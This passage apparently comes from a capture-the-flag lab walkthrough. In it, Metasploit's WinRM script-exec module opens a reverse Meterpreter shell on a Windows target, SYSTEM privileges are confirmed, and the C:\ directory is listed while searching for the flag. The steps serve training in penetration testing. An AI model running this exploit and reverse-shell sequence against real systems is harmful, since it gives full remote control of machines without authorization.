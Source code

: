 #### **🚀 What Happened:**
```bash
msf6 exploit(windows/winrm/winrm_script_exec) > exploit

[*] Started reverse TCP handler on 10.10.31.2:4444
[*] User selected the FORCE_VBS option
[*] Command Stager progress - 2.01% done (2046/101936 bytes)
[*] Command Stager progress - 4.01% done (4092/101936 bytes)
[*] Command Stager progress - 6.02% done (6138/101936 bytes)
[*] Command Stager progress - 8.03% done (8184/101936 bytes)
...
[*] Command Stager progress - 100.00% done (101936/101936 bytes)
[*] Sending stage (175686 bytes) to 10.0.28.252
[*] Meterpreter session 1 opened (10.10.31.2:4444 -> 10.0.28.252:52534)

meterpreter >
```

#### **🎊 Amazing Success! What This Means:**
- **Meterpreter Session** - We have full interactive control
- **100% Progress** - The exploit completed successfully
- **Reverse Connection** - Target connects back to our machine
- **System Level Access** - Can do anything on the target system

#### **Check Our Privileges:**
```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

**This is PERFECT!** We have SYSTEM privileges - the highest level access possible on Windows.

---

### **Step 6: Find the Flag (Mission Complete)**

**What We're Doing:** Exploring the system to find our objective (the flag file)

#### **Commands Used:**
```bash
cd /
dir
cat flag.txt
```

#### **What Happened:**
```bash
meterpreter > cd /
meterpreter > dir
Listing: C:\
============

Mode                Size     Type  Last modified              Name
----                ----     ----  -------------              ----
040777/rwxrwxrwx    0        dir   2020-10-01 20:21:31 +0530  $Recycle.Bin
100666/rw-rw-rw-    1        fil   2018-09-15 12:42:30 +0530  BOOTNXT
040777/rwxrwxrwx    8192     dir   2020-09-09 10:08:52 +0530  Boot
040777/rwxrwxrwx    0        dir   2018-11-14 21:40:15 +0530  Documents and Settings
040777/rwxrwxrwx    0        dir   2020-05-13 23:28:09 +0530  EFI
040777/rwxrwxrwx    0        dir   2018-11-14 21:26:18 +0530  PerfLogs
040555/r-xr-xr-x    4096     dir   2018-11-14 21:40:42 +0530  Program Files
040777/rwxrwxrwx    4096     dir   2020-10-01 20:26:39 +0530  Program Files (x86)
040777/rwxrwxrwx    4096     dir   2020-03-18 12:17:36 +0530  ProgramData
040777/rwxrwxrwx    0        dir   2020-10-01 19:32:11 +0530  Recovery
040777/rwxrwxrwx    4096     dir   2024-07-10 20:03:12 +0530  System Volume Information
040555/r-xr-xr-x    4096     dir   2020-10-01 19:33:57 +0530  Users
```
